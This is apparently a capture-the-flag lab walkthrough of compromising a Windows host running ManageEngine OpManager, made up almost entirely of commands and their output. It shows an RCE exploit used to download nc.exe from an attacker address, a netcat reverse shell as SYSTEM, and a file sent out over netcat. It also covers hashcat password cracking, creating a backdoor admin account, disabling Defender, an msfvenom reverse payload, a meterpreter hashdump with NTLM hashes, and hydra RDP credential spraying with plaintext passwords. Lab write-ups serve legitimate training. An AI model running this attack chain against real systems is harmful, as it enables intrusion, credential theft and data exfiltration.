

Credentials for 172.16.1.36 / WSADM
Nmap scan result
Nmap scan report for 10.10.110.124
Host is up (0.024s latency).
PORT STATE SERVICE VERSION
22/tcp filtered ssh
80/tcp open http Microsoft IIS httpd 10.0
443/tcp filtered https
8000/tcp filtered http-alt
8089/tcp filtered unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Look around and there is a flag in the dashboard in the settings
The version is vulnerable to RCE
https://www.exploit-db.com/exploits/47255
Upload NC
└─$ python ms01exploit.py -u admin -p Zaq12wsx! -t http://172.16.1.30 -c 'powershell wget http://10.10.14.14/nc.exe -Outfile nc.exe'
[+] Successfully created Workflow
[!] Executing Code . . .
[+] Code appears to have run successfully!
[!] Cleaning up . . .
[+] Exploit complete!
Execute it
└─$ python ms01exploit.py -u admin -p Zaq12wsx! -t http://172.16.1.30 -c 'nc.exe -e cmd.exe 10.10.15.154 4444'
[+] Successfully created Workflow
[!] Executing Code . . .
[+] Code appears to have run successfully!
[!] Cleaning up . . .
[+] Exploit complete!
Catch the rev shell
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.15.154] from (UNKNOWN) [10.10.110.3] 65187
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\ManageEngine_new\OpManager\logs>whoami
whoami
nt authority\system
Get a list of all the files in every user directory
dir C:\users /s /b
Intersting ones
C:\users\Public\POST.ps1
C:\users\administrator.ADMIN.000\Documents\logins.xlsx
Snag the flag while we're here
C:\Users\Administrator\Desktop>type flag.txt
type flag.txt
Grab the logins.xlsx, get the hash with office2john and crack it
C:\ManageEngine_new\OpManager\logs>nc.exe 10.10.15.154 777 < C:\Users\administrator.ADMIN.000\Documents\logins.xlsx
nc.exe 10.10.15.154 777 < C:\Users\administrator.ADMIN.000\Documents\logins.xlsx
\Downloads\hashcat-6.2.6>hashcat -a 0 -m 9600 xlsx.hash rockyou.txt -w 3
hashcat (v6.2.6) starting
CUDA API (CUDA 12.1)
====================
* Device #1: NVIDIA GeForce GTX 1060 3GB, 2474/3071 MB, 9MCU
OpenCL API (OpenCL 3.0 CUDA 12.1.98) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #2: NVIDIA GeForce GTX 1060 3GB, skipped
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP
* Uses-64-Bit
Watchdog: Temperature abort trigger set to 90c
Host memory required for this attack: 281 MB
Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384
[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit =>
$office$*2013*100000*256*16*6e2731071c58ebe3183c5b977ca7b3b7*68b91538f0e2b5b7f6e5d2e81863d225*02f66339b247b3a301bb6c312922c10cb5ea92741dc11d2a13e98b0265aa6904:broken
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 9600 (MS Office 2013)
Hash.Target......: $office$*2013*100000*256*16*6e2731071c58ebe3183c5b9...aa6904
Time.Started.....: Wed Apr 19 23:30:04 2023 (59 secs)
Time.Estimated...: Wed Apr 19 23:31:03 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 4409 H/s (76.05ms) @ Accel:256 Loops:128 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 262144/14344384 (1.83%)
Rejected.........: 0/262144 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> rebel91
Hardware.Mon.#1..: Temp: 66c Fan: 0% Util:100% Core: 139MHz Mem:4006MHz Bus:16
Started: Wed Apr 19 23:29:44 2023
Stopped: Wed Apr 19 23:31:04 2023

On the second sheet in that Excel file we find our second flag for MS01
OFFSHORE{p@ssw0rds_1n_cl3ar_t3xT}
Create local admin and add to administrators group
>net user test password123! /add
net user test password123! /add
The command completed successfully.
c:\Windows\debug>net localgroup administrators test /add
net localgroup administrators test /add
The command completed successfully.
RDP in and open Powershell and turn off Defender
Set-Mppreference -DisableRealTimeMonitoring $true
Generate Metasploit payload
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.154 LPORT=3333 -f exe > msfrev.exe
Do a hashdump
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
justalocaladmin:1001:aad3b435b51404eeaad3b435b51404ee:01c33f4a27c612833b20e31fd0129ad4:::
Crack Administrator password with rockyou.txt
7facdc498ed1680c4fd1448319a8c04f:Password1!
Lets see if we can RDP to any other host with the nedflanders account we found in the logins.xlsx
└─$ hydra -l ned.flanders_adm -p 'Lefthandedyeah!' -M corp.ip_list.txt rdp
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-20 00:18:48
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 1 task per 11 servers, overall 11 tasks, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking rdp://(11 targets):3389/
[3389][rdp] account on 172.16.1.23 might be valid but account not active for remote desktop: login: ned.flanders_adm password: Lefthandedyeah!, continuing attacking the account.
[3389][rdp] account on 172.16.1.201 might be valid but account not active for remote desktop: login: ned.flanders_adm password: Lefthandedyeah!, continuing attacking the account.
[3389][rdp] account on 172.16.1.220 might be valid but account not active for remote desktop: login: ned.flanders_adm password: Lefthandedyeah!, continuing attacking the account.
[ERROR] freerdp: The connection failed to establish.
[3389][rdp] account on 172.16.1.26 might be valid but account not active for remote desktop: login: ned.flanders_adm password: Lefthandedyeah!, continuing attacking the account.
[3389][rdp] account on 172.16.1.5 might be valid but account not active for remote desktop: login: ned.flanders_adm password: Lefthandedyeah!, continuing attacking the account.
[3389][rdp] account on 172.16.1.30 might be valid but account not active for remote desktop: login: ned.flanders_adm password: Lefthandedyeah!, continuing attacking the account.
[3389][rdp] account on 172.16.1.15 might be valid but account not active for remote desktop: login: ned.flanders_adm password: Lefthandedyeah!, continuing attacking the account.
[3389][rdp] account on 172.16.1.24 might be valid but account not active for remote desktop: login: ned.flanders_adm password: Lefthandedyeah!, continuing attacking the account.
[3389][rdp] host: 172.16.1.36 login: ned.flanders_adm password: Lefthandedyeah!
[ERROR] freerdp: The connection failed to establish.
[ERROR] all children were disabled due too many connection errors
10 of 11 targets successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-20 00:18:50
It shows we can RDP to 172.16.1.36 with ned.flanders_adm / Lefthandedyeah!